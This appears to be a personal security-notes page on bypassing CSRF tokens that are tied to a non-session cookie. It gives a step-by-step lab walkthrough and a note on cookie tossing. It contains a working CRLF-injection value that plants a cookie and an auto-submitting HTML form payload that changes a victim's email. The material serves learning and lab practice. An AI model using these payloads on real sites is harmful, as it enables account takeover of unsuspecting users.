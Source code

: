 Some applications tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This usually occurs when an application uses two different frameworks, one for session handling and one for CSRF protection, which are not integrated together. For example:
```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```
This situation is normally harder to exploit, since an attack is only possible if the website contains any behavior that allows an attacker to set a cookie in the victim's browser. In this case, an attacker can obtain a valid CSRF and session token from their own account, leverage a cookie-setting behavior to inject their cookie into the victim's browser and conduct an attack.
## Example Exploit
Imagine a shopping application that allows its users to change their email address and search for products within the store.

1. Login to your account. Submit the "Update email" form and intercept the request using Burp Proxy, then send the request to Burp Repeater.
2. In Burp Repeater, observe that changing the `session` cookie logs you out, but changing the `csrfKey` cookie merely results in the token being rejected, which may suggest that `csrfKey` cookie may not be strictly tied to the session.
3. Open incognito window and login to your another account, submit the "Update email" and send it to Burp Repeater.
4. Observe that if you swap the `csrfKey` cookie and `csrf` parameter from the first account to the second account, the request is accepted.
5. Back to the browser, perform a search and send the resulting request in Burp Repeater. Observe that the search term gets reflected in the `Set-Cookie` response header.
6. Confirm the search parameter is vulnerable to [CRLF Injection](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FCRLF%20Injection%2FIntroduction) by using the following value:
```txt
/?search=test%0d%0aSet-Cookie:%20csrfKey=uM3IBWr9qbdJgnV9DBqjXEOcdHG3rMPp%3b%20SameSite=None
```
7. Use the following payload for the attack
```html
<form action="https://vulnerable-website.com/my-account/change-email" method="post">
	<input type="hidden" name="email" value="pwned@normal-user.net" />
	<input type="hidden" name="csrf" value="fh6RhHzKaIRlyk2fzZJW1Xxxj6KVpDZp" />
</form>

<img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=uM3IBWr9qbdJgnV9DBqjXEOcdHG3rMPp%3b%20SameSite=None" onerror="document.forms[0].submit()">
```
8. Store the exploit then click "Deliver to victim" to solve the lab.
## Note
The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can be leveraged to set cookies in the application that is being targeted, this attack is called [cookie tossing](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies/cookie-tossing). For example, a cookie-setting function on `staging.demo.normal-website.com` could be leveraged to place a cookie that is submitted to `secure.normal-website.com`.